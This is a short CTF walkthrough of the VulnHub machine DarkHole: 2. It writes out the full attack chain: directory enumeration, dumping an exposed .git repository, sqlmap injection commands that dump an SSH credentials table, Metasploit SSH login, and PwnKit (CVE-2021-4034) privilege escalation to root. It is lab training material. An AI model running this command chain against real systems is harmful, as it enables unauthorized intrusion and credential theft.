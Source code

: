 # 🌑 DarkHole: 2 CTF – Summary Walkthrough

A text-based walkthrough of the **DarkHole: 2** vulnerable machine from VulnHub. This box showcases **Git repository leaks**, **SQL injection**, and **PwnKit (CVE-2021-4034) privilege escalation**.

## 🔍 Discovery
- Ran Nmap:
nmap -A -Pn <ip>

Open ports:
- 22 (SSH)
- 80 (HTTP)

## 📂 Enumeration
- Ran Gobuster:
gobuster dir -u http://<ip>/ -w /usr/share/wordlists/dirb/common.txt -x txt,log,php,git,html

- Found:
- `/.git`
- `/login.php`
- `/logout.php`
- `/dashboard.php`
- `/index.php`
- Enumerated `.git`:
gobuster dir -u http://<ip>/.git -w /usr/share/wordlists/dirb/common.txt -x txt,log,php,git,html

- Dumped repo:
git clone https://github.com/internetwache/GitTools.git
cd GitTools/Dumper
./gitdumper.sh http://<ip>/.git/ /tmp/repo-dump

- Found **admin credentials in login.php source code after reverting to a particular commit version**.

## ⚙️ Foothold
- Exploited SQL injection on `/dashboard.php`:
sqlmap -u "http://<ip>/dashboard.php?id=1"
--cookie="PHPSESSID=..." --dbs --batch
sqlmap -u "http://<ip>/dashboard.php?id=1"
--cookie="PHPSESSID=..." -D darkhole_2 --tables --dump --batch
sqlmap -u "http://<ip>/dashboard.php?id=1"
--cookie="PHPSESSID=..." -D darkhole_2 -T ssh --dump --batch

- Extracted SSH credentials:
username: jehad
password: fool

- Logged in via SSH using Metasploit:
use auxiliary/scanner/ssh/ssh_login
set USERNAME jehad
set PASSWORD fool
set RHOSTS <ip>
run

- Shell obtained → Upgraded to Meterpreter:
sessions
sessions -u 1

## 🔐 Privilege Escalation
- Ran local exploit suggester:
use post/multi/recon/local_exploit_suggester
set SESSION 2
run

- Selected `CVE-2021-4034 (PwnKit)`:
use exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
set SESSION 2
run

- Root shell obtained

---

📖 **Full walkthrough with screenshots:**  
👉 [View the Medium post here](https://medium.com/@basitolasubomibalogun/darkhole2-vulnhub-ctf-full-technical-walkthrough-ad608c2517fa)
